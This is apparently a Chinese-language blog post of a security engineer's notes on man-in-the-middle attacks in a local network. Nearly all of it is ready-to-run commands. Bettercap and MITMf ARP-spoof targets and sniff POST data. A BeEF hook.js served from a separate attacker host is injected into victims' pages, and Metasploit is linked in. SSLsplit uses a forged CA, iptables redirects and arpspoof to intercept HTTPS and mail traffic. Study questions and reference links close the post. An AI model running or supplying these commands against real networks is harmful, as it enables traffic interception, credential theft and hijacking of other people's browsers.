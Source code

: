```yaml
---
layout: post
title: MITM
categories: 安全工程师
kerywords: 中间人攻击 sniffer hook.js 
tags: MITM
---
```


# sniffer (ICMP/ARP)
> `bettercap -I enp0s31f6 -T 172.16.10.232 -S ARP -X --sniffer --proxy -P POST --log-timestamp --log /root/Desktop/232 --silent`

# hook.js and msfconsole

* beef
> `vim config.yaml`
> `vim extensions/metasploit/config.yaml`

* metasploit
> `load msgrpc ServerHost=172.16.10.222 Pass=abc123 SSL=y`
>> 如果不加ssl,需要确定在beef的配置文件中将ssl_vertify设置为false即可

* start beef
* Inject js
>`bettercap -I enp0s31f6 -T 172.16.10.246 -S ARP -X --sniffer --proxy -P POST --proxy --proxy-module injectjs --js-url http://172.16.10.222:3000/hook.js
`
>> 查看帮助 `bettercap --proxy-module injectjs -h`

> 我使用了下mitmf,感觉没有bettercap好用,mitmf是这样用的` python mitmf.py -i enp0s31f6 --arp --spoof --target 172.16.10.246 --gateway 172.16.10.1 --hsts --inject --js-url http://172.16.10.222:3000/hook.js`
>> 端口号占用需要修改config目录下的mitmf.conf, 以上两个都需要root权限


# https中间人

* `apt-get install libssl-dev libevent-dev`

* 
```bash
openssl genrsa -out ca.key 2048
openssl req -new -x509 -days 1096 -key ca.key -out ca.crt
```
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443
iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443
iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443
iptables -t nat -A PREROUTING -p tcp --dport 995 -j REDIRECT --to-ports 8443
```

```bash
arpspoof -i eth0 -t target -r gateway
sslsplit -D -l connect.log -j  ./test -S ./log -k ca.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
# 端口是你设置的转发端口
```

* DNS 欺骗的方式有哪些？
* MITM攻击除了DNS之外呢？
* DNS传输数据的方式,哪些工具?
* 如何内网防嗅探，防数据泄露?
* bettercap 的proxy modules怎么使用
* sslsplit 和ssltrip的原理差异
* 内网攻击有哪些方式
* 对比[mitmproxy](http://docs.mitmproxy.org/en/stable/mitmproxy.html)这类工具呢?


# 资源
* [中间人毒化攻击](http://www.freebuf.com/articles/system/5157.html)
* [Wifi 与bettercap中间人攻击](https://charlesreid1.com/wiki/MITM_Labs/Bettercap_Over_Wifi)
* [SSLSplit](https://www.roe.ch/SSLsplit)
* [Bettercap](https://danielmiessler.com/study/bettercap/)